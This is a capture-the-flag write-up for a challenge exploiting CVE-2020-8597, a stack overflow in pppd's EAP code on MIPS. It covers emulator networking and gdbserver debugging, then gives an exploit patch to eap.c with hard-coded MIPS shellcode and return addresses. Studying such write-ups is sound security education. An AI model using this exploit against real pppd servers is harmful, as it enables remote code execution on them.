 ## pppd
[中文](./README_zh.md) [English](./README.md)
[attachment](./attachment.zip)

This challenge is required to write 1 day exp of CVE-2020-8597
This cve itself is actually very simple, just a stack overflow
But the difficulty is to communicate with pppd and debug under the mips environment

Most of the teams did not find a way to communicate with pppd during the game, so I directly released the hint and used socat to communicate with pppd

Next is how to debug

First of all, the network is diabled by default

In /etc/init.d/S40network, delete all comments, then modify the start.sh script, delete -net none, add -redir tcp: 9999 :: 9999 -redir tcp: 4242 :: 4242, so Network is configured

Then modify /etc/inittab
change
```
ttyS0 :: sysinit: / pppd auth local lock defaultroute nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap lcp-max-configure 100
```
into
```
ttyS0 :: sysinit: / bin / sh
```

Then go to github to download a [gdbserver] (https://github.com/hugsy/gdb-static/blob/master/gdbserver-7.12-mips-be), repack a cpio, start it

After entering the system, you get a shell by default, and the system comes with a socat

carried out
```
socat pty,link=/dev/serial,raw tcp-listen:9999 &
/pppd /dev/serial 9600 local lock defaultroute 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap lcp-max-configure 100
```
Then execute the following command to get the pid of pppd
```
ps | grep pppd
```
Use gdbserver attach to pppd
```
./gdbserver --attach 0.0.0.0:4242 pid
```
Then use gdb-multiarch to connect to gdbserver

Then downloading a pppd source code, compile
execute
```
socat pty,link=/tmp/serial,rawer tcp:127.0.0.1:9999
pppd noauth local lock defaultroute debug nodetach /tmp/serial 9600 user notadmin password notpassword
```
now you can start debug and write the exp

following this [guide](https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb66612),you can write the exp of this chall

exp patch is below
```
--- ppp-ppp-2.4.7/pppd/eap.c	2014-08-09 12:31:39.000000000 +0000
+++ ppp-poc/ppp-ppp-2.4.7/pppd/eap.c	2020-04-12 03:23:54.321773453 +0000
@@ -1385,8 +1385,46 @@
 			esp->es_usedpseudo = 2;
 		}
 #endif /* USE_SRP */
-		eap_send_response(esp, id, typenum, esp->es_client.ea_name,
-		    esp->es_client.ea_namelen);
+		//eap_send_response(esp, id, typenum, esp->es_client.ea_name,
+		//    esp->es_client.ea_namelen);
+#define PAY_LEN 256
+		char sc[PAY_LEN];
+		memset(sc, 'C', PAY_LEN);
+		int* shellcode = (int*)sc;
+		shellcode[0]=0x3c09616c;
+		shellcode[1]=0x3529662f;
+		shellcode[2]=0xafa9fff8;
+		shellcode[3]=0x2419ff98;
+		shellcode[4]=0x3204827;
+		shellcode[5]=0xafa9fffc;
+		shellcode[6]=0x27bdfff8;
+		shellcode[7]=0x3a02020;
+		shellcode[8]=0x2805ffff;
+		shellcode[9]=0x2806ffff;
+		shellcode[10]=0x34020fa5;
+		shellcode[11]=0x101010c;
+		shellcode[12]=0xafa2fffc;
+		shellcode[13]=0x8fa4fffc;
+		shellcode[14]=0x3c19ffb5;
+		shellcode[15]=0x3739c7fd;
+		shellcode[16]=0x3202827;
+		shellcode[17]=0x3c190101;
+		shellcode[18]=0x373901fe;
+		shellcode[19]=0x3c060101;
+		shellcode[20]=0x34c60101;
+		shellcode[21]=0x3263026;
+		shellcode[22]=0x34020fa3;
+		shellcode[23]=0x101010c;
+		shellcode[24]=0x3c05004a;
+		shellcode[25]=0x34a53800;
+		shellcode[26]=0x20460002;
+		shellcode[27]=0x3c190042;
+		shellcode[28]=0x37396698;
+		shellcode[29]=0x320f809;
+		shellcode[30]=0x0;
+		sc[PAY_LEN-1] = '\0';
+
+		eap_send_response(esp, id, typenum, shellcode, PAY_LEN);
 		break;

 	case EAPT_NOTIFICATION:
@@ -1452,8 +1490,21 @@
 		BZERO(secret, sizeof (secret));
 		MD5_Update(&mdContext, inp, vallen);
 		MD5_Final(hash, &mdContext);
-		eap_chap_response(esp, id, hash, esp->es_client.ea_name,
-		    esp->es_client.ea_namelen);
+		//eap_chap_response(esp, id, hash, esp->es_client.ea_name,
+		//    esp->es_client.ea_namelen);
+		char payload[1024];
+                memset(payload, 'A', 1023);
+                memset(payload, 'B', 0x2a0);
+		int *tpayload = (int*)(payload + 0x2a0 - 4);
+		//*tpayload = 0x040A0BC;
+		*tpayload = 0x4083FC;
+		//*(tpayload-1) = 0x043EF9C;
+		*(tpayload-1) = 0x43EF9C;
+		*(tpayload-5) = 0x4a7a0c-8;
+
+                payload [1023] = '\0';
+                eap_chap_response(esp, id, hash, payload, 1024);
+		exit(0);
 		break;

 #ifdef USE_SRP
```
